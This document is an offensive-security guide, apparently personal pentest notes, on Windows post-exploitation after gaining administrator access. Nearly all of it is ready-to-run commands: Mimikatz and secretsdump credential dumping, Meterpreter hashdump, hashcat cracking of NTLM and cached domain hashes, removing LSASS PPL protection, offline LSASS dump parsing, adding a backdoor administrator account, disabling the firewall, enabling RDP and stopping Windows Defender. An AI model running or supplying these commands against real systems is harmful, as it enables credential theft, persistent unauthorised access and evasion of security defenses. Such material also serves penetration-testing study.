

# 💀 Elevated Post Exploitation

This guide will ensure that you establish better persistence onto systems. It is also a very linear guide, which means that from top-to-bottom these are good practices to enable. Also these modules are <mark style="color:red;">AFTER ACHIEVING ADMINISTRATOR ACCESS.</mark>

<figure><figcaption></figcaption></figure>

## Dumping Hashes

After Administrator access on a Windows computer we can proceed to dump hashes to open up the network to further attacks.&#x20;

Resources: [https://www.ired.team/offensive-security/credential-access-and-credential-dumping](https://www.ired.team/offensive-security/credential-access-and-credential-dumping)

### Method 1: Mimikatz

Run the following commands to dump hashes.

```
privilege::debug we should get an ok
sekurlsa::logonpasswords  
lsadump::sam /patch
lsadump::lsa /patch
lsadump::cache
```

### Method 2: SecretsDump.py

#### Valid Administrator Credentials&#x20;

With valid administrator credentials we could simply execute the following command:&#x20;

```
python3 secretsdump.py <domain.name>/<user>:<password>@<ip> 
python3 secretsdump.py <domain.name>/<user>@ip -hashes <ntlm:ntlm>
```

#### SAM / SYSTEM / SECURITY Hives

We can use the following hives as well to dump the hashes locally. This only requires the transfer of the SYSTEM, SAM, and SECURITY files onto our local machine. We could use whatever file transfer method is the most available to us.

```
reg.exe save hklm\system c:\Users\Administrator\system
reg.exe save hklm\security c:\Users\Administrator\security
reg.exe save hklm\sam c:\Users\Administrator\sam

Transfer them to our attacking machine.

secretsdump.py  -sam sam -system system -security security LOCAL
```

<figure><figcaption></figcaption></figure>

### Method 3: Meterpreter

Use the following modules

```
hashdump
use post/windows/gather/cachedump
```

### Cracking NTLMv1 Hashes

.png>)

`hashcat -m 1000 <hash> rockyou.txt`   &#x20;


### Cracking Cached Domain Credentials

{% embed url="https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LXiqMaCZWYwc9ecjwTb%2F-LXiw1AAfqtOk23kXPEE%2FScreenshot%20from%202019-02-02%2015-57-28.png?alt=media&token=e52bc60c-8c95-4a9d-8bb9-2bac2ec71b98" %}

To crack using hashcat we must put in the following format:&#x20;

```
$DCC2$10240#username#hash
```

Meterpreter's cachedump module's output cannot be used in hashcat directly, but it's easy to do it.

```
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 hashes.txt
```

.png>)

```
hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85f3b8' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

## Bypassing LSAS Protections&#x20;

### Description

Windows made a protection to protect the dumping of hashes in LSASS, this one is a process that is called PPL, which stands for Protected Processes Light. Basically services run with different integrity levels, therefore we are not able to mess around with processes that have different higher integrity levels that we can touch. &#x20;

#### Error

```
mimikatz # sekurlsa::logonpasswords
ERROR .... Handle on mmory (0x000000005)
```

### Bypassing PPL

Since PPL is controlled by a kernel process. We can bypass this by writing in kernel level. We will be doing this by making use of the Admin privilege called SeLoadDriver Privilege.&#x20;

#### Bypass

```
mimikatz # !+ # loads drivers
mimikatz # !processprotect /process:lsass.exe /remove #Disables PPL protection 
```

## Offline Memory Dumps

There will be times that mimikatz will get picked up.  We should first try to disable windows defender but lets say an anti virus keeps up with that bullshit we can dump the hashes offline. We will basically be doing more of what we did up there and transfer the a hive of the lsass process.&#x20;

.png>)

.png>)

Transfer DMP file to our attacking windows machine.&#x20;

```
mimikatz # sekurlsa:minidump lsass.dmp
sekurlsa::logonpasswords
```

### Do the same for other processes who you have access to. This could hint to disablign certain things and other shit.&#x20;

## Persistence&#x20;

### Adding Administrator Users

```
net user lyethar pass123 /add
net localgroup Administrators lyethar /add
```

Then we can use psexec to log in.

### Disable Firewall

```
NetSh Advfirewall set allprofiles state off
```

### Enable RDP

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

### Disabling Windows Defender

<pre><code>Run the following command to disable Windows Defender:

    sc stop WinDefend

To make sure that Windows Defender is stopped, run this command:

    sc query WinDefend

To enable Windows defender again, run the following command:

<strong>    sc start WinDefend
</strong></code></pre>
